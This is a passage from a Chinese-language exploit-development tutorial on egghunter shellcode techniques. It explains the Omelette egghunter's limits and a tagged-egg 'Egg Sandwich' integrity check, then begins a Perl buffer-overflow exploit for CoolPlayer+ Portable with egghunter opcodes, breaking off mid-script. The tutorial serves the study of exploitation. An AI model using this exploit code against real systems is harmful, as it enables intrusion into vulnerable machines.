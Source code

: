 Omelette Egghunter 代码定位每个块并按顺序将它们写入栈以重新组装和执行 shellcode。我不打算解释 Omelette Egghunter 代码，但我鼓励您看一下这里的[示例](http://www.thegreycorner.com/2013/10/omlette-egghunter-shellcode.html)。

这是一个非常有用的概念，但确实存在一些缺陷。首先，shellcode 块必须按顺序放入内存中，这是您可能无法控制的。其次，重新组装的 shellcode 被写入 ESP，你可能会覆写一些重要的东西，包括 Egghunter 本身。（这两个问题我都遇到过）。第三，为了利用这个附加的功能，你增加了额外的大小，在上面的链接中找到的 omelette 示例是 53 字节，而 NtDisplayString Egghunter 是 32 字节。此外，与 NtDisplayString Egghunter 类似，它会抓取它在内存中到达的第一个带有鸡蛋的 shellcode，而无需验证它是否是损坏的副本。 、

尽管存在这些潜在的缺点，但 Omelette Egghunter 可能适合某些情况，因此请记住这一点。

#### Egg Sandwich Egghunter

当我在考虑针对损坏的 shellcode 的各种解决方案时，我认为应该可以让 Egghunter 在执行之前验证 shellcode 的完整性，以确保它找到了完整的版本。这样，就无需担心有多少损坏的 shellcode 版本可能驻留在内存中，也无需担心更改偏移量或内存页面。此外，在诸如 CoolPlayer 之类的漏洞利用中，由于完整的副本确实驻留在内存中的某个位置，因此无需将 shellcode 分解成更小的块（如 Omelette 示例中所示）。

这是我的基本概念：对于 Egg Sandwich Egghunter，你需要两个 8 字节的 egg，一个放在 shellcode 的开头，一个放在结尾。 开头的 egg 还包含一个类似于 Omelette Egghunter 的双字节标签，第一个字节标识 egg 编号 (\x01)，第二个字节是第二个 egg 的偏移量（等于 shellcode 的长度）。第二个附加的 egg 也将包含一个双字节标签，第一个字节是 egg 编号（\x02），第二个字节是 shellcode 开头的偏移量（等于 shellcode 的长度 + 第二个 egg 的长度）。

假设我们使用 227 字节的 calc.exe shellcode 和 PWNDPWND egg，Egg Sandwich 中的第一个 egg 如下所示。

```
\x50\x57\x4e\x44\x50\x57\x4e\x44\x01\xe3
```

第二个 egg 如下所示。

```
\x50\x57\x4e\x44\x50\x57\x4e\x44\x02\xeb
```

注意第一个 egg 的大小标签是 \xe3（或 227，shellcode 的长度），而第二个是 \xeb（shellcode + 8 = 235）.

Egghunter 代码正常定位第一个 egg。然后它读取 egg 编号标签以验证它是否找到了第一个 egg，并使用偏移标签跳转到第二个 egg 。然后它检查以确保第二个找到的 egg 确实是下一个 egg（通过验证它的编号），然后使用偏移标签跳回到 shellcode 的开头来执行。 以任何方式添加或减去字节的任何损坏的 shellcode 副本都将无法通过第二次 egg 检查并被跳过。损坏的 egg 过此验证步骤的唯一方法是保持与原始 egg 完全相同的字节数。

```perl
#!/usr/bin/perl
###########################################################################################
# Exploit Title: CoolPlayer+ Portable v2.19.4 - Local Buffer Overflow Shellcode Jump Demo
# Date: 12-24-2013
# Author: Mike Czumak (T_v3rn1x) -- @SecuritySift
# Vulnerable Software: CoolPlayer+ Portable v2.19.4
# Software Link: http://portableapps.com/apps/music_video/coolplayerp_portable
# Tested On: Windows XP SP3
# Based on original POC exploit: http://www.exploit-db.com/exploits/4839/
# Details: Egg Sandwich Egghunter Demo
###########################################################################################

my $buffsize = 10000; # set consistent buffer size

my $junk = "\x90" x 260; # nops to slide into $jmp; offset to eip overwrite at 260
my $eip = pack('V',0x7c86467b); # jmp esp [kernel32.dll]

# loop_inc_page:
my $egghunter = "\x66\x81\xca\xff\x0f"; # OR DX,0FFF ; get next page 

# loop_inc_one:
$egghunter = $egghunter . "\x42"; # INC EDX ; increment EDX by 1 to get next memory address

# check_memory:
$egghunter = $egghunter . "\x52"; # PUSH EDX ; save current address to stack
$egghunter = $egghunter . "\x6a\x43"; # PUSH 43 ; push Syscall for NtDisplayString to stack
$egghunter = $egghunter . "\x58"; # POP EAX ; pop syscall parameter into EAX for syscall
$egghunter = $egghunter . "\xcd\x2e"; # INT 2E ; issue interrupt to make syscall
$egghunter = $egghunter . "\x3c\x05"; # CMP AL,5 ; compare low order byte of eax to 0x5 (indicates access violation)
$egghunter = $egghunter . "\x5a"; # POP EDX ; restore EDX from the stack
```